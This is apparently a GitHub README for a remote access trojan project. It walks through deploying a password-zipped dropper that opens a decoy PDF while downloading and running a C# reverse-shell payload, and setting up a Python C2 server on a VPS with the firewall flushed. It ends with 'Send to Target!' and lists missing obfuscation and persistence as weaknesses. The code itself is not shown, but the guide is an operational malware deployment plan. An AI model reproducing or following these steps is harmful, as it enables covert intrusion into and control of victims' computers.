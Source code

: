 # RAT

Dropper --> Payload --> <- C2


## Setup

### Dropper:
  Need to add 2 links, the first to the pdf that will be loaded at runtime and the other will be to downlaod the Exe and execute. Dropper will be sent on its own to the target so it must be the file zipped with a password. Host the PDF on a google drive with a sharable link. 
  - Add link to PDF
  - Add link to EXE
### Payload:
  This payload is in C# so it must be built using dotnet command that keeps it as a standalone binary with no Dll's attached - command for compiling will be shown under these instructions, the shell.cs is the paylaod and will need to have the VPS servers IP and selected port added to the file. The Payload Exe after compiling will be uploaded to a github and downloaded by the dropper. 
  - Add Port + Server IP + Compile using:
  
  1.     dotnet publish -c Release -r win-x64 --self-contained true /p:PublishSingleFile=true /p:IncludeNativeLibrariesForSelfExtract=true

### C2: 
  The C2 must run on a VPS server and needs to run in the background. Open ports for the Reverse shell to access the C2 server. The comands below are for a ubuntu server
  -  Add port to C2.py

  #### C2 config Setup:

  Install tmux / git / and the C2.py onto the ubuntu server 
  1.     sudo apt update && sudo apt install tmux -y
  2.     sudo apt update && sudo apt install git -y


  3.     pscp -i path\to\privatekey.ppk path\to\localfile username@C2-server-IP:/path/on/server
  - Sends the C2.py to the server

  setup the script to run in the background with tmux
  
  1.     tmux new -s C2test
  2.     python3 C2.py
- Detach from session:
1.     Ctrl + B, then D
- Attach to session:

2.     tmux attach -t C2test
  Usefull tmux commands
  
  1.     tmux kill-session -t C2test
       - Kills tmux sessions
  2.     tmux ls
       - Shows tmux session open


  Get rid of firewall for testing (will update later)
  1.       sudo iptables -F
		   sudo iptables -X
		   sudo iptables -P INPUT ACCEPT
		   sudo iptables -P FORWARD ACCEPT
		   sudo iptables -P OUTPUT ACCEPT

		See Firewall rules:
  2.     sudo iptables -L

Host the Shell.exe on the server 

1.     sudo apt install nginx
		sudo cp myfile.exe /var/www/html/
		sudo chmod 644 /var/www/html/myfile.exe
		sudo systemctl restart nginx

## Final

Have the Exe payload and the PDF on a github repo make sure the dropper is connected and the paylaod is configered to connect back to the C2 VPS server correctly. 
1. VPS running
2. Zip Dropper + Password Protected
  - Ctrl + shift + rigth click -> 7zip hover -> add to archive -> create password = zip with password
3. Send to Target!


### Cons 
- no obfuscation
- no loader
- not a certified script = smart screen pop-up
- no persistance

### Requirments
- .NET 9.0 installed
- dotnet added to Path for compiling
- VPS server
- GitHub account to host PDF + EXE 
